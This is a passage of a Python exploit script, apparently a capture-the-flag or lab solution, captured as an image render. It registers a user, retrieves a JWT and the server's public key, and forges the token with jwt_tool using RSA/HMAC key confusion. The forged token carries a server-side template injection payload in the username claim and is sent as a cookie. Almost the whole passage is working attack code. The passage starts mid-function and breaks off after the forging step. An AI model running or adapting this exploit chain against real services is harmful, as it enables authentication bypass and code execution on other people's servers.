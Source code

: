 ```python
    return

# Tamper JWT with jwt_tool
def modify_jwt_with_tool(token):
    print(f"[*] Modifying JWT with jwt_tool...")

    command = [
    "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]

    # Run jwt_tool and capture the output
    result = subprocess.run(command, capture_output=True, text=True)

    # Extract the modified token from jwt_tool output
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            print(f"[*] Modified JWT: {modified_token}")
            return modified_token

    print(f"[!] Modified JWT not found in jwt_tool output")
    return None

# Test SSTI injection
def test_ssti(modified_token):
    cookies = {'token': modified_token}
    print(f"[*] Sending modified JWT in cookies to test SSTI injection...")
    response = requests.get(CAT_URL, cookies=cookies)

    if response.status_code == 200:
        print("[*] SSTI payload executed successfully!")
        print(f"[*] Server response:\n{response.text}")
    else:
        print(
            f"[!] SSTI execution failed: {response.status_code} - {response.text}")

def main():
    username = "cat"
    password = "cat"

    # Step 1: Register user
    if not register_user(username, password):
        print("[!] Failed to register user.")
        return

    # Step 2: Login and retrieve JWT
    jwt_token = login_user(username, password)
    if not jwt_token:
        print("[!] Failed to retrieve JWT.")
        return

    # Step 3: Download JWK (public key)
    jwk = download_jwk()
    if not jwk:
        print("[!] Failed to download JWK.")
        return

    # Step 4: Recreate public key PEM from JWK
    rsa_public_key_from_jwk(jwk)

    # Step 5: Modify JWT claim (inject payload) using jwt_tool
    modified_jwt = modify_jwt_with_tool(jwt_token)
```
